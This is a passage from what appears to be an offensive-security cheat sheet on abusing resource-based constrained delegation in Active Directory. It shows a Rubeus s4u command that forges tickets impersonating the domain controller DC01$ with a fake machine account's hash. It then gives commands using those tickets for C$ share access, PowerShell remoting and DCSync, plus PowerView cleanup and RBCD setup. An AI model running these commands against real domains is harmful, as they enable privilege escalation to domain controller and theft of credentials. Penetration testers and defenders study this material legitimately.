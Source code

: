 Ask TGS for CIFS and also inject [other](https://adsecurity.org/?page_id=183) potentionally useful service names into the ticket (sname field [is not protected](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/) in TGS-REQ):

```
PS > .\Rubeus.exe s4u /domain:megacorp.local /user:fakemachine1337$ /rc4:FC525C9683E8FE067095BA2DDC971889 /impersonateuser:DC01$ /msdsspn:CIFS/DC01.megacorp.local /altservice:host,wsman,ldap,http /ptt
```

If the ticket cannot be imported or there's no access to corresponding services, troubleshoot it:

* Try impersonating different privileged users when requesting the ticket.
* Try using FQDN to NetBIOS under `/msdsspn` parameter (i.e., `CIFS/DC01.megacorp.local` > `CIFS/DC01`).

After the ticket has been successfully imported we can go for filesystem access (CIFS), powershell remoting (WSMAN), DCSync (LDAP) and so on:

```
PS > klist
// CIFS
PS > cd \\DC01.megacorp.local\c$
PS > ls
PS > c:
// WSMAN
PS > Enter-PSSession -ComputerName DC01.megacorp.local
PS > exit
// LDAP
PS > ...DCSync...
```

Cleanup:

```
PV3 > Get-DomainComputer DC01.megacorp.local -Verbose -Credential $cred | Set-DomainObject -Clear 'msDS-AllowedToActOnBehalfOfOtherIdentity' -Verbose -Credential $cred
Powermad > Remove-MachineAccount -MachineAccount fakemachine1337
```



### PowerView 4.0

Configure RBCD on the vulnerable host (DC01):

```
PV4 > Set-DomainRBCD DC01 -DelegateFrom fakemachine1337 -Verbose
```

Cleanup:

```
PV4 > Set-DomainRBCD DC01 -Clear -Verbose
```




## RBCD from Linux

